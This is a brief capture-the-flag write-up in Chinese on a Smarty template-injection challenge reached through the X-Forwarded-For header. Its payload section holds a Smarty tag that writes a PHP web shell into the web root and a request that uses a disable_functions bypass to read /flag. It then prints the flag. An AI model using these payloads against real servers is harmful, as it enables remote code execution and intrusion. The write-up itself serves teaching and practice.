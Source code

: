 # smarty

> flask ssti注入

## 思路分析

> 打开网址,提示有2个接口,一个是查ip的,一个查X-Forwarded-For的.查X-Forwarded-For时可控制参数,怀疑此处存在模版注入,尝试{{1+2}},返回3,此处的确存在ssti漏洞.试python flask,报错了,根据题目关键字smarty猜测是php smarty模版注入.写入shell,用蚁剑连接后,发现不能跨越目录,使用disable_function插件绕过得到flag.

## payload

> {if file_put_contents('/var/www/html/shell.php','<?php eval($_POST[cmd]);')}{/if}

> /bypass_disablefunc.php?cmd=cat /flag&outpath=/tmp/tmpfile&sopath=/var/www/html/bypass_disablefunc_x64.so 

## flag

> flag{6f96cfdfe5ccc627cadf24b41725caa4}

## 参考

> https://www.freebuf.com/articles/web/192052.html
